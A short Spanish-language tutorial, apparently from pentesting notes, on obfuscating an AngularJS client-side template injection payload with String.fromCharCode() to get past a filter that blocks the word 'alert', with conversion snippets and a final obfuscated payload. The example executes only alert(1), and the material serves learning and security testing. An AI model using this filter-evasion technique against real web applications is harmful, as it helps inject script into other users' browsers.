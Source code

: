 `String.fromCharCode()` es un método de JavaScript que recibe una serie de valores decimales y devuelve su representación en texto según la codificación Unicode.

Por ejemplo:

```javascript
String.fromCharCode(97,108,101,114,116) // "alert"
````

Esto nos permite construir comandos como `alert(1)` sin escribir explícitamente la palabra `alert`.

---

## Ejemplo práctico: CSTI en AngularJS ofuscado

### Escenario

Estamos analizando una aplicación vulnerable a CSTI que utiliza AngularJS. La siguiente carga útil es válida y ejecuta código en el navegador:

```html
{{constructor.constructor('alert(1)')()}}
```

Sin embargo, supongamos que hay un filtro que bloquea expresiones que contengan directamente la palabra `alert`. Podemos ofuscar el payload usando `String.fromCharCode()`.

---

## Conversión a decimal

Convertimos el string `'alert(1)'` a códigos Unicode decimales.

### Con JavaScript:

```javascript
'alert(1)'.split('').map(c => c.charCodeAt(0)).join(',')
// Resultado: 97,108,101,114,116,40,49,41
```

### Con Python:

```python
payload = 'alert(1)'
print(','.join([str(ord(c)) for c in payload]))
# Salida: 97,108,101,114,116,40,49,41
```

---

## Payload final ofuscado

El payload CSTI ofuscado quedaría así:

```html
{{constructor.constructor(String.fromCharCode(97,108,101,114,116,40,49,41))()}}
```
